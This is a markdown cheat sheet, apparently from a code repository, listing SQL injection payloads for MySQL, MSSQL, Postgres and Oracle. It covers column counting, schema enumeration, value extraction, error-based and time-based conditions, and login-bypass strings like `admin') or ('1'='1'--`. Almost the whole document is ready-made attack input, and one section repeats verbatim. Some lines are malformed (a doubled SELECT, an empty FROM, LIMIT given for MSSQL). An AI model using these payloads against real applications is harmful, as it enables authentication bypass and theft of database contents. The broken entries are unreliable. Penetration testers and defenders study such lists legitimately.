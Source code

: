 # SQL Injection Payloads

## Number of Columns
- MySQL/MSSQL/PGSQL: `'UNION SELECT NULL,NULL,NULL -- -`
- ORACLE: `'UNION SELECT NULL,NULL,NULL FROM DUAL -- -`
- MYSQL/MSSQL/PGSQL/ORACLE - (add +1 until you get an exception): `' UNION ORDER BY 1 -- -`

## Database Enumeration
- MySQL/MSSQL: `' UNION SELECT @@version -- -`
- Oracle: `' UNION SELECT banner from v$version -- -`
- Oracle (2nd method): `' UNION SELECT version from v$instance -- -`
- Postgres: `' UNION SELECT version() -- -`

## Tablename Enumeration
- MySQL/MSSQL/Postgres: `' UNION SELECT table_name,NULL from INFORMATION_SCHEMA.TABLES -- -`
- Oracle: `' UNION SELECT table_name,NULL FROM all_tables  -- -`

## Column Name Enumeration
- MySQL/MSSQL/Postgres: `' UNION SELECT column_name,NULL from INFORMATION_SCHEMA.COLUMNS where table_name="X" -- -`
- Oracle: `' UNION SELECT column_name,NULL FROM all_tab_columns where table_name="X"  -- -`

## Column Values Concatenation
- MySQL/Postgres: `' UNION SELECT concat(col1,':',col2) from table_name limit 1 -- -`
- MySQL (2nd method): `' UNION SELECT col1 ':' col2 from table_name limit 1 -- -`
- Oracle/Postgres: `' UNION SELECT select col1 ||':'||col2, null FROM  where table_name="X"  -- -`
- MSSQL: `' UNION SELECT col1+':'+col2,NULL from table_name limit 1 -- -`

## Conditional (Error Based)
- MySQL: `' UNION SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') -- -`
- Postgres: `' UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END -- -`
- Oracle: `' UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual -- -`
- MSSQL: `' UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END -- -`

## Time-Based
- `(select * from (select(sleep(10)))a)`
- `';WAITFOR DELAY '0:0:30'--`

## Generic Error Based Payloads
- MySQL: `' UNION SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') -- -`
- Postgres: `' UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END -- -`
- Oracle: `' UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual -- -`
- MSSQL: `' UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END -- -`

## Authentication Based Payloads
- `or true--`
- `") or true--`
- `') or true--`
- `admin') or ('1'='1'--`
- `admin') or ('1'='1'#`
- `admin') or ('1'='1'/`

## Order by and UNION Based Payloads
- `1' ORDER BY 1--+`
- `1' ORDER BY 2--+`
- `1' ORDER BY 3--+`
- `1' ORDER BY 1,2--+`
- `1' ORDER BY 1,2,3--+`
- `1' GROUP BY 1,2,--+`
- `1' GROUP BY 1,2,3--+`
- `' GROUP BY columnnames having 1=1 --`
- `-1' UNION SELECT 1,2,3--+`
- `' UNION SELECT sum(columnname ) from tablename --`
- `-1 UNION SELECT 1 INTO @,@`
- `-1 UNION SELECT 1 INTO @,@,@`
- `1 AND (SELECT * FROM Users) = 1`
- `' AND MID(VERSION(),1,1) = '5';`
- `' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --`
